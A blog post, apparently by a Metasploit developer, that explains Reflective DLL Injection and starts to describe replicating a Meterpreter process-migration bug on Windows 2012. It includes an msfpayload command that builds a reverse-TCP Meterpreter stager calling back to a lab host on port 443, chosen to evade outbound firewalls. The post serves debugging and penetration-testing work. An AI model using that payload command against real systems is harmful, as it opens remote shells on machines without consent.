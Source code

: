 Reflective DLL Injection
------------------------

Simply put, Reflective DLL Injection is a method for injection a DLL into a process. No surprises there. However, it has some nifty properties that make a great candidate for use in tools such as Meterpreter. Some of those points include:

* Position-independence.
* Lack of host system registration.
* Largely undetectable on the target at both a system and process level.

The canonical paper \[[PDF][rdi_paper]\], written by [Stephen Fewer][], is well worth reading and can be found on the [Harmony Security][] website. Read it. It's amazing, and does a much better job of explaining itself than I could ever hope to. I would like to point out that there's a multi-stage process involved which includes:

* Writing the code to an executable area of memory.
* Executing the loader which creates a valid DLL image in memory.
* Calling [DllMain][] on the loaded DLL.
* Returning control to the process that invoked it.

With that in mind, let's take a look at the bug.

The Bug
-------

The bug that was reported related to process migration, and went something like this (paraphrased slightly with a bit more information):

> Trying to migrate Metepreter between processes on Windows 2012 seems to be
> unreliable. It will migrate just fine into some processes, such as _explorer.exe_,
> without any problems. However, spawning another process, such as _notepad.exe_, and
> migrating to it hangs the entire session. Migrating to the _winlogon.exe_ process
> crashes the entire user environment on the target host.

When I first read this report I thought "Wow, how am I going to track this down?", and I'll admit that I was a little intimidated at first, especially given that I knew that the native Windows Meterpreter was using Reflective DLL Injection to load itself into other processes. However, it's been a long time since I'd been tasked with something this challenging and so, deep down, I was looking forward to diving in.

Replication
-----------

The first step was to fire up a Windows 2012 virtual machine and replicate the problem. Windows 2012 only comes in a 64-bit flavour, so picking the right version wasn't a problem.

After installation, I needed to simulate an attack coming from Metasploit so that I could interact with Meterpreter to perform the migration.

Creating a payload to do this is really simple thanks to [msfpayload][] (part of Metasploit). On my [Backtrack][] VM I used the following command to generate the PE image:

    root@bt:~# msfpayload windows/x64/meterpreter/reverse_tcp LHOST=10.5.26.40 LPORT=443 X > 40-443-x64.exe

This command creates a 64-bit Windows executable that contains a small stager. This stager connects to `10.5.26.40` (my Backtrack VM) on port `443` (I always choose the HTTPS port to avoid potential outbound firewall issues). Once connected it will download the Meterpreter payload and establish a session with Metasploit.


  [KronicDeth]: https://twitter.com/KronicDeth "Luke Imhoff @ Twitter"
  [met_native]: https://github.com/rapid7/meterpreter "Native Meterpreter"
  [Metasploit framework]: http://www.metasploit.com/ "Metasploit Framework"
  [penetration test]: http://en.wikipedia.org/wiki/Penetration_test "Penetration Testing"
  [msf_source]: https://github.com/rapid7/metasploit-framework/ "Metasploit Framework Source"
  [Rapid7]: http://www.rapid7.com/ "Rapid 7"
  [r7_blog]: https://community.rapid7.com/community/metasploit/blog/2013/09/05/weekly-update "Weekly Update: Meterpreter Updates, VMWare, the OSX spycam, Retabbing, and more!"
  [rdi_paper]: http://www.harmonysecurity.com/files/HS-P005_ReflectiveDllInjection.pdf "Reflective DLL Injection"
  [Harmony Security]: http://harmonysecurity.com/ "Harmony Security"
  [Stephen Fewer]: http://twitter.com/stephenfewer
  [DllMain]: http://msdn.microsoft.com/en-us/library/windows/desktop/ms682583(v=vs.85).aspx "DllMain Entry Point"
  [msfpayload]: http://www.offensive-security.com/metasploit-unleashed/Msfpayload "msfpayload"
  [Backtrack]: http://www.backtrack-linux.org/ "Backtrack Linux"
  [DebugView]: http://technet.microsoft.com/en-au/sysinternals/bb896647.aspx "DebugView"
  [Windbg]: http://en.wikipedia.org/wiki/WinDbg "Windbg"
  [dbg_tools]: http://msdn.microsoft.com/en-us/windows/hardware/gg463009.aspx "Debugging Tools for Windows"
  [OutputDebugString]: http://msdn.microsoft.com/en-us/library/windows/apps/aa363362(v=vs.85).aspx "OutputDebugString function"
  [DWORD]: http://msdn.microsoft.com/en-us/library/cc230318.aspx "DWORD"
  [ULONG_PTR]: http://msdn.microsoft.com/en-us/library/cc230394.aspx "ULONG_PTR"
  [ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization "Adress Space Layout Randomisation"
  [sf_pr]: https://github.com/rapid7/meterpreter/pull/14